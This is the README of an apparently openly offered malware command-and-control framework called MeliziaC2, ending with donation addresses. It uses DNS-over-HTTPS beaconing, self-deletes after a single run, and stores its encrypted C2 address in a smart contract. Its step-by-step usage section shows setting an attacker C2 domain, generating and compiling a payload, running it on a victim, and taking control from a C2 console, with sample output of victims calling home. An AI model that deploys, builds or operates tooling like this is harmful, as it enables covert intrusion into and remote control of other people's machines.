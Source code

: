 # MeliziaC2
DNS over HTTPS targeted malware (only runs once)

<p align="center">
  <img src="./logo.jpg" width="500">
</p>

## Key Features
- [x] Auto-delete malware on failure
- [x] Fully encrypted (per victim RSA key) DoH (DNS-over-HTTPS) communication
- [x] Malware only runs once!   

## Diagram

![diagram](./melizia_diagram.svg)


## Usage Steps


###### 0 - Edit contract_generator.py file
```
modify C2ServerIP variable:
C2ServerIP = "attacker.domain.com"
```

###### 1 - Generate and deploy smart contract (contains the AES encrypted DNS address of server)
```
attacker_machine@ThreatActor:$ python3 contract_generator.py 
[...]
Calculating keccak from :: ImTWdbREqskoawYAXzEB()

Contract address :: 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6
Encrypted C2 address :: weTq1JD5gpk4Guv/9wTXXhcXgxI+0V+aQPKly7F0rdM=
Contract key :: 9o2goajTJ3ivI+DLB+rRzw==
Generated contract variable name :: ImTWdbREqskoawYAXzEB
Contract keccak :: 7941b5a6

gen_payload primaryServerIP:port 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6 9o2goajTJ3ivI+DLB+rRzw== 7941b5a6
```

###### 2 - Generate payload using the returned parameters
```
attacker_stager_server@Stager:$ python3 server_rust.py 
Server running!
> gen_payload stagerServerPublicIP:stagerServerExposedPort(1337 by default) 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6 9o2goajTJ3ivI+DLB+rRzw== 7941b5a6
Smart contract address :: 0xD3E71479BB2A8b3ba6724636C41b836bD2dFe5B6
Smart contract Keccak :: 7941b5a6
Generated payload with hash :: b'8822a96ba043c606b16ede401cb4a22f2a57c63214311c4ed21f5c705a5d7687'

> 
```

###### 3 - Compile payload
```
attacker_stager_server@Stager:~/Desktop/babagola/migrate$ cargo build --release --target=x86_64-unknown-linux-musl
[...]
warning: `migrate` (bin "migrate") generated 147 warnings
    Finished release [optimized] target(s) in 0.18s
warning: the following packages contain code that will be rejected by a future version of Rust: rustc-serialize v0.3.24
note: to see what the problems were, use the option `--future-incompat-report`, or run `cargo report future-incompatibilities --id 1051`
```

###### 4 - run (Victim)
```
user@Ubuntu:$ ./malware 
[debug information]
```

##### 5 - control!
```
threatactor@C2Server:~/C2_Melizia$ sudo python3.10 c2.py 
sudo: unable to resolve host TestingC2: Resource temporarily unavailable
 Melizia C2 
Pwned by trololo gang! kek kek keke kekw
- "SYSADMIN VOCÊ ESTÁ SENDO HIPNOTIZADO, ESQUEÇA QUE ESSA OWNADA EXISTIU"
        |) /\ |\ | /`  |
        |) \/ | \| \]  .
          __________         |) /\ |\ | /`  |
         /________ /|        |) \/ | \| \]  .
        |   X|I   | |
        |    |    | | |) /\ |\ | /`  |
        |IX  * III| | |) \/ | \| \]  .
        |    |    | |
        |____VI___| |         |) /\ |\ | /`  |
        |    /    | |         |) \/ | \| \]  .
        |   /     | |
        |  /      | |     |) /\ |\ | /`  |
        |( )      | |     |) \/ | \| \]  .
        |_________|/
                     |) /\ |\ | /`  |
                     |) \/ | \| \]  .


Ctrl+C is disabled! please use "exit" to exit from Melizia
Use "help" to see the available commands!
[!] DNS Server started

(Melizia)> A spaceship arrived!
"92994c589f860bab7af687fc3525d3de445812f52e951f5cf2d04432751a1b8c" Called home!
```

##### 6 - anddd, the artifact only runs once! (attempt to run the same artifact)
```
[Victim]

user@Ubuntu:$ ./target/x86_64-unknown-linux-musl/release/migrate 
user@Ubuntu:$ ./target/x86_64-unknown-linux-musl/release/migrate 
-bash: ./target/x86_64-unknown-linux-musl/release/migrate: No such file or directory <- Unlink

[Stager]
user@Ubuntu:~/Desktop/babagola$ python3 server_rust.py 

Server running!
> gen_payload 127.0.0.1:1337 0x564c3D9bBF15D7Be75f7468b4470f5d0B11bbD79 wiDt52uxNO7X7iUB8v0THw== b100ca9f                                                                                                  
Smart contract address :: 0x564c3D9bBF15D7Be75f7468b4470f5d0B11bbD79
Smart contract Keccak :: b100ca9f
Generated payload with hash :: b'67d6f46082e7ab5a48864d8e887bf571d1dca03161084392d1edf1738e03fdb6'

[Valid Victim]
> 127.0.0.1:46390 - ce0fba743a0694c32b5d3051c801c1518d0ecf719aa12e89da7ec3a133eb894f
Records: b'Yo/W/UQkmZ8etNrjiHCJC7EIWP9It2V3r1AWDaPnqx4='

New client incomming! preparing the missiles to attack :: ('127.0.0.1', 46390)
Sending smart contract address :: 0x564c3D9bBF15D7Be75f7468b4470f5d0B11bbD79

[Invalid Victim]
127.0.0.1:38478 - ce0fba743a0694c32b5d3051c801c1518d0ecf719aa12e89da7ec3a133eb894f
```

## Compilation
###### Static compile
```
rustup target add x86_64-unknown-linux-musl
cargo build --release --target=x86_64-unknown-linux-musl

or (windows)

rustup target add x86_64-pc-windows-gnu
cargo build --release --target=x86_64-pc-windows-gnu
```

# Donate!
```
Pix:
997f8e1c-5ea4-42d8-9a52-2d1a852e4274

https://nubank.com.br/pagar/sqtrd/oGVMf6g6Pa

Cripto
Direct:
BTC
1ACguGNLXik3sKYShtEuUX4ahYuM3yPFQq

MATIC
0x3b1699bbd7f67db0987ebef0f5f7b00c12fefddf

ETH
0x3b1699bbd7f67db0987ebef0f5f7b00c12fefddf

Metamask:
0x30f2F62FD0700af80Deb70D520f07deE9D411a33

XMR
83dsNXwoxmX54CNrv6WrB1dJeiyttgBZM2JFvUh43MMrDghfZmfcsB7cGywVL1X69YQBcMsxm8mbdJhEdzCjgdaETKawxFK

SOL
2DsFcwmKtqCCS2WhVM2FCt4LJa18ugk5o26sarbhcqnR

All the currencies are supported!
https://nowpayments.io/donation/demoni3864
```


